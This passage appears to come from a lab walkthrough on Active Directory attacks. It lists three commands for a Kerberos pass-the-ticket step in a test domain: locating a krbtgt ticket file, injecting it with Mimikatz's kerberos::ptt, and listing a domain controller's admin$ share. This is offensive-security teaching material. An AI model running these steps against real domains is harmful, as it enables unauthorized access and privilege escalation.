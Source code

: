 Find a krbtgt

{% highlight PowerShell %}
dir | findstr "krbtgt"
{% endhighlight %}

Inject the ticket into the terminal

{% highlight PowerShell %}
kerberos::ptt black.widow@krbtgt-marvel.lab.kirbi
{% endhighlight %}

If this works you can get a directory index of the admin folder on the DC

{% highlight PowerShell %}
dir \\DC01\admin$
{% endhighlight %}